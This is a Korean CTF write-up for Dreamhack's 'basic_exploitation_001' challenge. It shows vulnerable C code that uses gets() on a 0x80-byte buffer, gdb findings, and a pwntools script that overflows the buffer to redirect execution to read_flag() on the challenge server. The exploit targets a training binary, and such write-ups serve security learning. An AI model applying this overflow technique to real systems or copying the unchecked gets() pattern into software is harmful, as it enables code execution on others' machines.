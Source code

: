 ```yaml
---
title: "[ Dreamhack ] basic_exploitation_001"
description: "문제의 환경정보를 보니 어떠한 보호기법도 적용되어 있지 않다.문제 소스코드를 보면 gets로 값을 입력받고 있으나 길이를 검사하고 있지 않아 BOF취약점이 존재한다.또한 flag값을 주는 read_flag()함수도 존재한다.gdb로 분석해보면 gets로 입력받은 값은 "
date: 2023-03-09T15:00:37.770Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/be6d293b-921f-4214-b2fe-3ce7738dd7f0-image.png)

<br>

<br>

### **문제 분석**

---
문제의 환경정보를 보니 어떠한 보호기법도 적용되어 있지 않다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
문제 소스코드를 보면 gets로 값을 입력받고 있으나 길이를 검사하고 있지 않아 BOF취약점이 존재한다.

또한 flag값을 주는 read_flag()함수도 존재한다.

<br>

<br>

### **문제 풀이**

---
![](/images/87a19ad6-46b0-4fbb-9412-6c45643beef6-image.png)

gdb로 분석해보면 gets로 입력받은 값은 ebp-0x80에 위차하는 것을 알 수 있다.

<br>

![](/images/dfc5178c-9f9e-4b85-ac81-32e2b7140dcd-image.png)

또한 flag를 주는 read_flag()함수의 주소는 0x80485b9이다.

<br>

따라서 다음과 같이 payload를 작성할 수 있다.

```dummy(0x80byte) + sfp(4byte) + return address(read_flag() address)```

<br>

다음과 같이 exploit 코드를 작성하면 flag를 얻을 수 있다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 10360)

flag_addr = 0x80485b9

payload = ''
payload += 'A'*0x80 + 'BBBB'
payload += p32(0x80485b9)

p.sendline(payload)

p.interactive()
```

![](/images/342caa1b-478d-40e4-9c03-da2dc0999752-image.png)

